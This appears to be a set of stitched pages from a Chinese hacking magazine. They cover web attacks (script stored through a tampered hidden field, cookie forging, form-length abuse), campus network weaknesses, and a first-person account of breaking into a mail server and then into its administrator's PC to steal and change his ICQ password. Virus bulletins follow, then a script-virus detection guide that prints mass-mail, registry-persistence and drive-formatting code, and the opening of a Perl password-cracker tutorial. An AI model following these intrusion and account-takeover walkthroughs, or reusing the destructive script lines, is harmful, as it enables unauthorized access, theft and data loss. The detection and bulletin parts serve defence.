注意到 value="comments.txt"，它暗示我们留言的内容是以 comments 文件存放在服务器中，这里我们修改为 value="123.html"，修改好后再返回留言本，在留言框中填充上某些脚本代码，例如像去年可恶的修改注册表的 JavaScript 或者 VBScript 之类的代码，提交到服务器中。提交成功后，服务器就将这段恶意代码以 123.html 文件的形式存储在服务器上。这时攻击者就可以通过使用各种手段来让无辜的受害者浏览 www.somesite.com 上我们用脚本编写的这个 123.html 文件，糟糕的是，很可能这个网站是一个被很多人信任的站点，他们不会怀疑这样的站点会存在不怀好意的代码。通过这样，攻击者就可以通过这个网站来达到散布自己精心准备的脚本的目的。更可怕的是，如果这个页面再放个病毒并配合利用浏览器漏洞让浏览器自动执行，那后果可想而知。

### 2. COOKIE 欺骗

下面这个例子是某在线支付的电子商务网站的 COOKIE 欺骗，网站假设为 www.somepayonline.com。现在我们申请一个名叫 Abacarius 的用户，登录进入这个用户页面可以看到网站提供给我的服务项目，如历史交易、目前现有资金等情况。查看 COOKIE，我们发现如下内容：“www.somepayonline.com FALSE zyzxzirfh646320981373509865”，注意到，仍然以文本存放的 FALSE 后面的一串字母和数字，是经过简单加密处理的。初学 C 语言的朋友可能都编过简单加密小程序，和 www.somepayonline.com 的 cookie 加密思路相似。根据我们使用的用户名 Abacarius 对应 zyzxzirfh，观察到 z 对应 a，y 对应 b，依次类推，我们可以大概判断其中的规律。好了，现在我们把 COOKIE 加密过的 zyzxzirfh 改为 qlsmhlm，根据前面掌握的规律，qlsmhlm 应该是对应为 johnson，cookie 其余不变，保存。这时我们再刷新一下原来使用的 Abacarius 用户登录页面后，现在出现的不再是开始时我们用 Abacarius 的登录用户页面了，而是 johnson 用户的登录页面（当然我们需要预先知道服务器上有 johnson 用户，而获得用户名并不难做到），也就是说，由于服务器是以我们本地 cookie 记录为准，在我们修改本地 cookie 后，成功地骗过了服务器，使服务器误认为我们是 johnson 用户，从而使我们可以顺利地登录到 johnson 的页面。COOKIE 欺骗危害可想而知，不过现在这些电子商务网站大都注意到这方面的问题，已经加强 cookie 的安全性。在本文这个例子中，通过观察来猜测加密的内容可能也不现实，但作为一种方法我们仍然可以从中体会到观察的力量，体味其中操作过程中无穷的乐趣。

### 3. Web 缓冲区溢出

网络安全名词中大名鼎鼎的缓冲区溢出，一般人常将它与深奥复杂的 shellcode 联系在一起，以为必须对 C、C++ 之类的语言了如指掌，也需要对操作系统十分精通，可事实没有上述的背景知识也一样可以实现缓冲区溢出。下面这个例子就是讲述 Web 缓冲区溢出的情况，它并不需要那些背景知识。现在我们找到一个网站，它的某些服务需要用户注册使用，在注册的页面中要求我们输入各类信息，比如需要注册的用户名，需要填写企业的名称、地址、联系方式等内容，下面我们来看一下它是否存在着 Web 缓冲区溢出漏洞。

一般地，Web 漏洞都是从源代码开始找起，我们先来观察一下 HTML 源代码，在这个页面中输入公司名称文本框的代码处我们发现了这么一段 HTML tag：`<input type="text" name="company_name" maxlength="30">`。这里可以发现一个问题，maxlength=30，它的作用是在填写公司名称信息文本框中填写公司名称的时候最大不能超过 30 个字节，那么一个稍稍了解一些超文本标志语言的朋友就可以利用这一点对服务器进行 Web 缓冲区溢出攻击。比如我们这样改变它的设置，使浏览器容许发送大于 30 个字节的请求，改为 10000 字节的请求，将 maxlength=30 中的限制字节数修改为 maxlength=10000。修改好之后，现在我们回到注册信息页面，在公司名称文本框中用 10000 个 0（零）来填充，并提交给服务器，这时服务器在处理我们提交数据的时候可就有可能发生缓冲区溢出。如果发生缓冲区溢出，网站服务器将返回一个警告提示：There are no response. The server could be down or is not responding. If you are unable to connect again later, contact the server's administrator. 即请求无应答，服务器可能死机或者无响应，如果过一会你仍不能连接，请联系服务器管理员。警告说明 Web 缓冲区溢出成功。这个例子中的 Web 缓冲区溢出的危害是造成服务器拒绝服务甚至是崩溃，而且攻击者不需要有很深厚的编程功底，所以可以看出危害不小。

写在后面：本文以 sanctuminc 公司网站的一篇 Web 安全文章的实例为蓝本，但笔者并没有逐字逐句地照搬过来，而是将某些个人认识和经验融入其中，力图适合初入门的网络安全爱好者，不足之处欢迎在黑防论坛发帖提出。



### 由校园网看网络安全现状

文／安全天使·angel

#### 前言

本来没打算写这篇文章，可是实在让人无法忍受，没想到校园网的安全状况居然这么差，其实最令人无奈的还是管理员的素质和安全意识。

#### 状况

大约是 1 年前，我无意中进入哈尔滨 XX 大学的 Web 服务器。这台服务器似乎是刚装好，全是默认的漏洞，我想可能是没有来得及配置吧，于是发信提醒管理员尽快做安全配置，然后离开了。一个星期后，我应朋友要求检测一台服务器安全性。由于没有得到授权，所以需要一台跳板，想到了哈尔滨 XX 大学的服务器。一去看，居然纹丝未动，仍赤裸裸地运行着，我用完后为了能引起管理员的注意，于是修改了首页的 title 标签，然而我无法想像的是被修改过的页面居然能在 Google 上搜索到，真是无比惊讶，但后来再访问却登录不了，也 ping 不通了，看来关了。不知道什么原因，宁愿关闭也不愿配置一下，哪怕是装个防火墙也好啊。服务器尚且如此，内网就更不堪设想了。

我们市有两所省重点，鉴于影响，全是用化名，一所是市里（下面简称市高）的，一所地区（下面简称地高）的，每年都有近 300 人重点，近 600 人本科，地高去年还得了 9 个清华。按理说电脑老师水平应该很高，可结果是不光对外服务器安全性差，内网的安全状况更是惨不忍睹。还有 FTP 服务器、MAIL 服务器都存在一定的缺陷。什么原因？

地高的网站做得不错。看得出全站基于 ASP+SQL，而且应该是自己写的程序，细心观察源代码就可以发现不少过滤问题，只不过简单地查看一些 ASP 文件运行的结果 HTML 代码就可以看到表单有一些小问题，很容易让人执行跨站越权操作。FTP 服务器是用 IIS5.0 的，还可以匿名登录，不过现在好像弄好了。现在 imail 已经升级到了 7.xx 版了，可那儿还在用 5.xx。

论坛用动网 0109 版本的，dispbbsuser.asp 有严重的语句过滤问题，使得攻击者可以执行跨站脚本获取任何论坛用户的密码，由于数据库没有加密，所有密码明文显示。聪明的人应该可以知道这意味着什么。我曾经就这个问题发信给管理员，结果他不去自己检测居然直接来问我要解决办法，悲哀……

而更严重的还是内网的安全问题，在黑客软件横行肆虐的今天，各种危险性的数据包满天飞，导致经常有人无故死机，利用设备名称解析漏洞更是无声无息，共享资源也暴露得过火。就比如刚才所说的 Web 服务器的 Web 目录也共享出来，直接就可以把所有 ASP 文件要下来，当然，也找到了 conn.asp 文件里的 sa 用户名及密码，虽然无法连接，但的确开不了玩笑的。前段时间，有个同学无意中发现了老师电脑里的试卷，结果很多学生都乐此不疲东翻西找，后来简单地隐藏了网上邻居，没有发现有人成功了。但其实要进入老师的电脑还是轻而易举，只是我不愿意这样做。领导办公室、教务处的电脑里，学期计划、考试成绩、工资、学生评定等一览无余。有的还是任意读写，任何人知道了都会震惊。

机房本地安全做得不错，使用 EXTRA 硬盘还原卡，禁止注册表和控制面板里的所有选项，教学监控软件以前可以单纯地在开机前终止进程，后来软件采用再生技术，进程被杀会再生，程序被删除再生，甚至你改掉 Program Files 目录它也会再生一个完整的程序出来，有点像 qeycs 潜伏猎手（http://www.sangel.net/bbs/dispbbs.asp?boardID=2&ID=1183）。结果没有人能逃脱老师的监视了，可是我还是能畅通无阻。由此可见，还是存在很大的安全漏洞的，程序很优秀，系统本身很糟糕，可管理员一向都自我感觉良好……

不久，在我的论坛上发现了市高的一个学生把如何进市高的服务器过程写了下来。居然还有二次解码漏洞、printer 远程溢出漏洞。看到这里，我就去市高的服务器上看看，结果令人太跌眼镜。既然不是我们学校的，我就不好透露什么，我只想提醒市高的管理员尽快仔细检查自己的系统，就算装了防火墙也无济于事。

上面是我所了解的情况，其他学校也好不到哪里去。现况大家了解得差不多了，有什么感想呢？我这儿总结了几点原因。

- 1. 管理员素质差，安全意识淡薄，水平普遍偏低，对于别人发出的信件漠不关心。
- 2. Web 服务器和系统都没有经过细心的安全配置。
- 3. 使用的程序版本过低，漏洞明显，但又不采取任何补救措施。
- 4. 没有严格地控制好各工作组之间的访问权限，也没有做好单机的防范工作。
- 5. 管理员太依赖程序，自己却没有尽职。

#### 解决方案

下面给出我认为可行的一些方案，仅供参考。

### 1. 对外服务器的安全问题

对外服务器通常是 Web 服务器，这是局域网的第一道关卡。由于经费、在线时间、管理等诸多原因，这台服务器肯定与内网相连，这样只要控制了该服务器，那么想获取内部任意一台电脑的资料就不是难事了。所以，这台服务器至关重要，一定要细心地配置。如果不是专业网管，请参考相关文章（topsoft.163.com/software）。

### 2. 内部网的安全问题

要想解决局域网内部安全的问题，最基本的就是安装 NT 内核的操作系统，使用 NTFS 格式的分区。服务器可以使用 Windows 2000 Server 或 Windows 2000 Advanced Server 甚至 UNIX 或类 UNIX 系统。学生和教师机可以使用 Windows 2000 Professional，牢固的系统可以提高抵抗各种 bomb 的能力，还可以更好地控制权限，强健的密码机制让 Windows 98 无地自容。此外，还可以安装一些占用资源少的简单的包过滤防火墙。

### 3. 学生机的安全问题

学校担心学生在电脑的种种错误操作而导致数据丢失、系统崩溃，因此安装各种硬盘还原卡、保护卡或者还原精灵。这对硬盘来说简直是种酷刑，而且增加了开支，其实充分利用 NTFS 分区的“安全”特性，就可以对硬盘进行良好的保护，至少目前为止，我还没有发现什么工具能冲破 NTFS 的保护。严格设置好各个分区、目录、文件的访问权限，效果比还原卡还要理想数倍。而且不损坏硬盘，还可以很好地限制下载等。除非管理员嫌麻烦或者认为电脑是由学校出钱装的而不当回事。

### 4. 内部管理问题

对于 IP，每台电脑仅有的一个网络标识，就像人的身份证一样，如果管理不好甚至被更改或盗用，可能导致那台电脑不能上网，而且现在每个学校基本上都是人工分配 IP 地址，费时费力而且也可能让学生修改。其实 NT/2000 就提供了 DHCP（动态主机配置协议）服务，通过这个功能可以很好地解决 IP 的分配和盗用问题。如果不懂设置请看《使用 DHCP 服务巧妙固定 IP 地址》、《如何解决校园网络中避免 IP 地址被盗用》，这两篇文章足以解决问题，为方便读者查询，我们将这两篇文章收录在光盘 xiangguan\ 目录下。

#### 安全管理措施

- 1. 任何操作系统都有漏洞，作为管理员就有责任及时地打上各种补丁（Patch），将安全隐患降低到最少，也为了系统能更加稳定地工作。

使用邮件发送信息，往往 IP 是隐藏的，但是依然有种种方式方法可以获取到这个信息。本篇文章是笔者通过亲身测试，表现出一次利用邮件头反入侵的实际案例，望对读者在学习中有所帮助。

### 利用邮件头反入侵

#### ——入侵与反追踪的技巧

文/kaka

某年某月某日，我利用一个极其傻瓜化的密码猜测器，随便对一个网段的机器进行了 IPC$ 弱口令扫描（一般来说，基于 IPC$ 的密码探测扫描，如果对方管理员没有在本地安全策略中打开审核账户登录事件，一般管理员是无法发现的，这种扫描也无法在对方机器上留下日志），发现了一些弱口令的机器，使用 DameWare Mini Remote Control 远程连接软件连接上去，属于 Mail Server 服务器，于是随手在 Imail 中添加了一个 kaka@***.com 的邮件账户。

> Please note that you hack into our mail server, and we already report to the ...... Please stop doing this immediately, since we already present all the log file to the ...... Please stop immediately, And one software company already report to the ...............

大体意思：

说我入侵了他们的 Mail Server 服务器，要我立即停止攻击，他们已经报告给有关机构，已经把记录日志文件发给了有关机构以做相关处理。

随后的日子里，我用这个邮件四处注册论坛作为我的主力邮件……（在这期间，邮件被删除了几次，每次都是我上去又添加了 kaka 这个账户）直到一日，我收到了这个 Mail Server 的管理员的警告邮件，如图 1 所示：

虽然我没有破坏什么，但是毕竟我被管理员警告了，心里想管理员的技术还可以吧，看看管理员是如何发现我的，并且想把俺的日志文件给删除。首先我想到日志文件一般都在那个 Mail Server 的机器上，既然管理员已经发信给我了，那台 Mail Server 一定有了安全配置，要想进去是不容易了。果然，Ping 已经 Ping 不通了（可能使用防火墙隔离）：

图 1

信件原文：

```text
C:\Documents and Settings\kaka>ping *.*.*.*

Pinging *.*.*.* with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for *.*.*.*:
    Packets: Sent = 4, Received = 0, Lost = 4 (100% loss),
```

既然 Ping 不通，那就暂时放一放了，我们就看看管理员的机器安全性如何。既然你的 Mail Server 服务器安全性都那么差，你的个人机器一定好不到哪去，这个就是经验了。查看邮件的原始信息：[[反追踪:]]，如图 2 所示。

看到对方的 IP 了：

```text
Return-path: <thomson@*.com>
Received: from thomson [*.*.*.186] by *.com [*.*.*.102]
with SMTP (Mdaemon.PRO.v4.0.0.R)
for: <kaka@**.com>; Fri, 29 Nov 2002 12:32:02 +0800
From: "SUCCESS-HK-Thomson" <thomson@***.com>
To: <kaka@*.com>
Subject: Illegal and criminal
Date: Fri, 29 Nov 2002 12:35:53 +0800
Message-ID: <LPBBKPHFNGCGAFONPAEDOEH...>
MIME-Version: 1.0
*.*.*.186 ==> 管理员的 IP。
```

于是对这个 IP 地址进行了扫描，发现管理员账号的密码竟然为空（图 3）。对方看起来似乎没有安全意识，和他管理的 Email 服务器一样。

先看看他在做什么，是不是正在整理我的证据，选取日志。利用 DameWare Mini Remote Control 远程连接软件获取他的桌面（图 4）：

原来他在向移动硬盘拷贝东西，看了很久，不是整理我的日志。

看看桌面右下角任务栏中都是什么东西，好多图标，如图 5 所示：

东西倒是不少，不过糟糕的是对方属于动态 IP，下次他重新启动机器以后就不知道 IP 地址了。那个小飞机图标是动态域名解析 dns2go 的图标，就是根据这个判断他是动态 IP 地址的。

既然以后不可能有机会找到他的 IP，那就先看看对方的硬盘都有什么值得感兴趣的东西了。结果翻了很久，没有找到什么有价值的东西，里边只有一些订单的模板。

看了对方的任务栏，好像经常使用 ICQ，那我就想和他开开玩笑，把他的 ICQ 密码盗走并修改。ICQ 默认安装盘 c:\program files\icq\2002a\，如图 6 所示。

因为对方用的是最新版本的 ICQ，但是现在网络上破解 ICQ 密码的软件不支持最新版本的 ICQ 密码解密，如 2003a 这个版本。还好，他的 ICQ 是在 2002a 这个版本升级到 2003a 的，硬盘中还保留原来的 2002a 的号码 .dat 文件。

将其 copy 回本地，利用 icqrin15 解密，见图 7 所示，属于弱口令，随手登录上去把密码修改成 stupidman，然后利用 socks5 代理给对方发了邮件，又重新注册一个 kaka00z@hotmail.com，给对方发了邮件静候事态发展。

一天后，Hotmail 邮箱有了 2 封 thomson 的邮件，如图 8、图 9 所示。

后来对方的邮件服务器我也没有再进去渗透，写封邮件似乎是例行公事一般，故我以后就没有搭理对方。

### 总结

入侵他人的机器是违法的，但我撰写这篇文章的目的只是为了表明这么一个事件及其过程，重在说明一种表现手法，宗旨还是希望网管人员提高警惕，对网络做出安全防御，提供一些参考方向。

同样，入侵、反入侵、反追踪都是需要耐心和技巧的。入侵需要在最短的时间内获取目标主机的 root 权限，在对方系统中留下最少的日志甚至不留日志。

反入侵则刚相反，要求系统管理员在最短的时间内对管理的主机出现异常作出最快的安全检测，保留系统所有的安全日志，一一分析日志找出异常。

反追踪就是很明确了，管理员发现你的踪迹，或者发邮件给你，然后根据邮件的原始信息找出管理员的 IP，再设法进入管理员的机器，作进一步入侵渗透或者通过别的途径来进行，希望以上的手段能为一些管理员在维护系统中起到帮助作用。

### 最新病毒公告

### 口令蠕虫

- 病毒名称：Worm.Dvldr
- 病毒类型：恶性蠕虫
- 病毒威胁：安装远程控制后门，扩散过程可能造成网络堵塞。
- 病毒特征：该蠕虫属于黑客行为的蠕虫病毒，它通过扫描 Windows 2000/XP 的 445 端口，然后进行共享会话猜测管理员系统口令。如果猜测到口令，则蠕虫建立管理会话，用 psexec.exe 程序通过共享上传蠕虫文件。在被感染的主机上的注册表中 `Software\Microsoft\Windows\CurrentVersion\Run` 设置启动项，以使病毒能够在系统启动的时候自动加载运行。蠕虫会在主机上开启 VNC 后门，该后门开启 5800 和 5900 端口，能够进行远程控制。蠕虫开启扫描进程，对随机生成的 IP 地址进行扫描来传播感染其它主机。

建议用户用下面办法来检查是否被病毒感染：

查看系统进程是否存在 Dvldr32.exe，以确认是否被病毒感染。如果你的系统被感染，那么可以结束该进程，并在正确的目录下删除相应的蠕虫文件和注册表键值，然后重新启动系统。

解决办法：

建议用户设置更复杂的系统密码，并进行相应的安全加固配置。可以在“管理工具—本地安全策略—本地策略—安全选项”中进行下面设置：

- 1. 重设置管理员账号，将 administrator 账号名称设置为其它名称；
- 2. 禁止匿名用户连接和枚举账号；
- 3. 如果你的环境不需要进行共享远程连接，可以使用系统 IPSec 策略禁止 445 端口的通讯，或者在防火墙等边界设备上禁止 445 端口的通讯；
- 4. 建议在网络的出入口，禁止 5800 和 5900 端口的通讯。

### 唐朝 Z

- 病毒名称：Macro.Tang.Zed
- 病毒类型：宏病毒
- 病毒特征：病毒运行时会感染 Word 和 Excel 模板，然后通过模板再感染所有文档文件。另外该病毒体内还包含了一个蠕虫病毒，在病毒运行时它会将这个蠕虫病毒放入被感染的文档中，每感染一次就使该文档增加 100 多 K，同时它还将此蠕虫病毒藏身于系统目录，通过邮件系统向外发送大量病毒邮件。

### 运行

- 病毒名称：Worm.Youdgos
- 病毒类型：蠕虫病毒
- 病毒特征：修改 autoexec.bat 和注册表进行自启动，并释放 s.vbs 脚本病毒文件，在桌面创建一个浏览器图标，用以启动病毒，同时向外发送附件为 mirc69.exe 的病毒邮件。

### 流浪者

- 病毒名称：Trojan.PSW.Gip.113.b
- 病毒类型：木马病毒
- 病毒特征：先放一段动画来迷惑用户，随后释放出一个木马程序盗取用户的 ICQ 密码，发送到指定目录。

### 爱情后门

- 病毒名称：Worm.Lovgate.a/b/c/d/e
- 病毒类型：蠕虫病毒
- 病毒特征：该病毒群于 2 月 25 日被瑞星公司率先截获，它集蠕虫、后门、黑客于一身，通过病毒邮件进行邮件传播，通过建立后门给用户的计算机建立一个泄密通道，通过放出后门程序与外界远程木马沟通，通过放出盗窃密码程序主动盗窃计算机密码，通过远程疯狂传播局域网，最终导致所有计算机用户受到病毒控制，网络瘫痪、信息泄露等严重后果。

互联网上病毒横行，对于已知的病毒，我们可以借助杀毒软件来对其进行查杀，而面对近期刚诞生的病毒发作时，我们是否就束手无策呢？其实，无论病毒的发作现象和传播原理是如何，都有惯用的伎俩，本文通过介绍脚本病毒的常见表现，提供大家一种自行查杀病毒的方法和途径。

### 关于未知脚本病毒的判断和查杀

文/小兵

现在脚本病毒横行，以脚本病毒（如欢乐时光、爱虫、库尔尼科娃、Homepage 等病毒）流传最为广泛。其主要的原因是脚本病毒一般是用解释性脚本语言进行编写，病毒容易制造，兼容性更好。比如流行的脚本病毒，都会利用操作系统的开放性、网页文件的通用性等特点。特别是从 COM 到 COM+ 的组件编程思路，一个脚本程序能简单调用功能强大的组件，就能轻松完成一些复杂的功能，使病毒制作进入高级编程阶段，稍微有编程基础的人就能写出病毒来。

同时，像脚本病毒这样的代码，如果不加密，其源程序很轻松被发现，这就容易被一些低级程序员所利用。从爱虫等脚本病毒流传开始，其代码也像病毒一样迅速扩散开来，被人简单改装后就可以制成新的病毒，什么 Homepage、Mayday 等，整个技术思路都差不多。近期又有人改装成 Jessica Worm 病毒，用“163 电子邮箱收费通知”做标题，其基本代码和扩散部分代码完全是爱虫病毒的盗版。所以可以想象，在不久的将来，脚本病毒会像如今的蠕虫病毒一样泛滥。

除了脚本病毒编写容易的特点外，另一个显著特点不得不提——强大的破坏力。比如，修改注册表、发送被感染的文件、自身隐藏、感染其它文件、删除文件、格式化系统等等。这就好比一个平民拥有了枪炮，他并不需要了解多少枪械知识，只要会扣扳机就能轻易对他人造成伤害。

例：

### 罪恶之神

- 病毒名称：Harm.EvilGod
- 病毒类型：破坏性程序
- 病毒特征：一旦感染，不论用户是运行任何 exe 文件，还是打开任何 txt 文件以及屏保出现时，都会激活病毒，从而造成系统目录里的所有文件都被病毒删除，系统彻底瘫痪。

### 叛逃者

- 病毒名称：Vbs.Evade
- 病毒类型：脚本病毒
- 病毒特征：该病毒于 2 月 17 日被瑞星公司率先截获，它感染网页文件和 Office 文档文件，将自身覆盖于指定目录中的所有媒体文件、网页文件和 Office 文档文件，并将被感染的 Office 文档文件当做病毒邮件的附件发送给地址簿中的所有人，从而泄露用户信息，因此对于企事业单位的局域网用户来说，病毒的危害性更大。

### 硬盘杀手变种

- 病毒名称：Worm.Opasoft.f/j/h
- 病毒类型：蠕虫病毒
- 病毒特征：该病毒于 2 月 14 日被瑞星公司率先截获，据瑞星反病毒专家分析，该病毒是根据“硬盘杀手”的初期版本修改而成的，因此还没有破坏硬盘的功能，但该病毒有一个致命的功能，就是可以自动登录网站自动升级自身，如果升级成功，则会变成最新版本的硬盘杀手，毁坏硬盘数据，而且该病毒还会阻塞局域网络，对企事业单位造成很大的影响。

如：2001 年 5 月的爱虫病毒，利用了很简单的代码，就对无数的计算机造成了极大的破坏，使计算机资料瞬间全无，毁掉了无数人的心血。

下面我们就对脚本病毒进行一些原理的分析，并向大家阐述一下未知脚本病毒的判定，希望由此希望大家对脚本病毒再多一份了解，少一份由于脚本病毒而造成的损失。

以下是脚本病毒的主要表现：

- 1. 通过修改重要的注册表项对计算机造成一些破坏。例如：修改 Windows 的启动项，使启动机器时自动执行病毒文件；修改浏览器的配置项，使有些特定的文件无法显示等。
- 2. 感染特定后缀名的脚本文件，将自身病毒代码插入其中。
- 3. 向外发送大量的病毒邮件，并附带自身病毒代码，借邮件传播自己。
- 4. 病毒体内含有使系统死机的特定语句。
- 5. 病毒体内含有屏幕炸弹一类的特定语句。
- 6. 病毒体内含有极其危险的操作，例如：DELTREE（删除目录树）、FORMAT（格式化硬盘）。

所以，我们只要抓住病毒代码的几个特征就可以辨认出病毒。以下为几种常见代码：

1）向外发送大量的邮件，并附带自身的代码的主要表现的形式是：

创建一个 Outlook 应用的对象：

```vb
Set objOA = Wscript.CreateObject("Outlook.Application")
取得 MAPI 名字空间：
Set objMapi=objOA.GetNameSpace("MAPI")
```

遍历地址簿：

```vb
For i=1 to objMapi.AddressLists.Count
Set objAddList=objMapi.AddressLists(i)
For j=1 To objAddList.AddressEntries.Count
Set objMail=objOA.CreateItem(0)
```

取得邮件地址、收件人：

```vb
objMail.Recipients.Add(objAddList.AddressEntries(j))
```

2）脚本程序修改重要注册表项的代码的主要表现形式是：

```vb
Set regz = CreateObject("WScript.Shell")
regz.RegWrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\CountRunner", "c:\windows\counsrpt.vbs"
```

3）有极其危险操作的代码，例如：DELTREE、FORMAT 的主要表现形式为：

```html
<OBJECT classid=clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B id=wsh></OBJECT>
<SCRIPT>
wsh.Run('start /m format.com z:/q /autotest /u');
wsh.Run('start /m format.com y:/q /autotest /u');
......
</SCRIPT>
</P>
```

4）现在最流行的脚本病毒加密形式的代码为：

```vb
Function DeCode(Coded)
For I = 1 To Len(Coded)
CurChar= Mid(Coded, I, 1)
If Asc(CurChar) = 15 Then
CurChar= Chr(10)
ElseIf Asc(CurChar) = 16 Then
CurChar= Chr(13)
Else
CurChar = Chr(Asc(CurChar) - 2)
End If
DeCode = DeCode & CurChar
Next
End Function
```

通过以上分析，我们可以看到，脚本病毒有一些主要特征，只要我们发现文件中有以上的代码，或有类似形式的代码，就可以基本判定是一个脚本病毒。然后再根据实际情况，加入一些智能的判断方法，就可以判定绝大部分未知的脚本病毒。然后将这一脚本分析技术应用于实时监控系统之中，一个脚本监控就实现了。

以上内容，只是提供一些思想上的东西，代码是类代码，用户是无法直接使用的，如果要想实现未知脚本的查杀，还需要做很多工作。

### Perl 编写密码破解工具 DIY



> Perl 是一门非常优秀的网络编程语言，用它来编写入侵工具，最大的特点就是简单、实用和方便。另外，只要将代码稍微变动一下，就可以制作成具有此功能的网页，那么你也可以创建一个具有扫描漏洞和密码破解功能的网站了！哈哈，是不是已经很痒痒了，下面我们就从架设 Perl 开始热身吧！

以前曾经介绍了用 VB 制作一些基础的工具，收到许多网友的来信，表示了他们对 VB 制作入侵工具的关注。俗话说师傅领进门，修行在个人。笔者的知识也有限，希望诸位朋友能自己领悟 VB 网络编程的奥秘，开发一些未被开发的工具类别，一定能取得很好的成效。这次，我收集了自己用 Perl 编写的几个工具，并简单概括一下 Perl 编程在网络运用上的技巧，以及编写密码破解程序的方法。希望你能多多涉猎各个语言关于网络编程的相通之处。

#### 一、架设 Perl 的运行环境

在 Windows 系列操作系统下，你只需要安装 ActivePerl 就可以了（下载地址：http://www.activestate.com/）。安装是全自动的，本文的程序只需按照默认的配置即可。UNIX/Linux 系统下如果默认没有安装 Perl 的话，可以下载 Perl 的 RPM 包，安装步骤可以参阅软件自带的帮助文件，本文从略。

#### 二、热身知识

Perl 的基本知识可以参阅许多 Perl 的入门编程知识。在阅读本文之前，你应该学会变量、数组以及简单的文本操作的程序编写。我先来讲一下 Perl 在网络功能方面运用的知识：

运行时参数的配置：

参数的默认变量是 ARGV，可以通过这个数组变量获得用户输入命令时所获得的参数。比如 @ARGV 是获得总共有多少个参数，如果设置了 $ARGC=@ARGV，那么 $ARGV[0] 就是第一个参数，$ARGV[1] 就是第二个参数，以此类推。

Perl 的 Socket 编程：

用到了 Socket，首先要在文件的开头 use strict; use Socket; 来输入 Socket 库中的函数，这样我们就可以在自己的 Perl 程序中运用 Socket 的函数了。我们需要的函数如下：

- 1. **gethostbyaddr(ADDRESS，TYPE)**  
  将压缩形式的网络地址转换为更易于人阅读理解的名字与地址。当只知道主机的 IP 地址时，可以使用本函数查询主机名及其他网络信息，会返回一个列表，包含如下信息：($name, $alias, $addrtype, $length, $address)。其中，$name 是与 IP 地址对应的主机名，$alias 是对应 $name 的其他别名，$addrtype 是网络地址的类型，$length 是地址的长度，而 $address 则是压缩形式 IP 地址的列表。

- 2. **connect(SOCKET，NAME)**  
  试图与已经调用了 accept() 函数并等待建立连接的另外一个进程进行对话。如果成功，则返回真；否则返回假。NAME 应该是对应 SOCKET 句柄正确类型的压缩地址。

- 3. **gethostbyname(NAME)**  
  与上面的 gethostbyaddr() 函数类似，不过在这里是根据主机名来获得相关信息。这里主机名是作为参数，返回的信息格式完全相同。

- 4. **listen()**

listen() 系统调用被服务器所使用。下面有它的定义：

```c
#include <sys/types.h>
#include <sys/socket.h>
int listen(int sockfd, int backlog);
```

Sockfd 是套接字描述符，backlog 是在一时间内尚未被决定是否拒绝的连接的号码，一般使用标准值 5，如发生错误则返回值小于 1。如果这个调用成功，你就已经可以接受连接了。

- 5. **accept()**

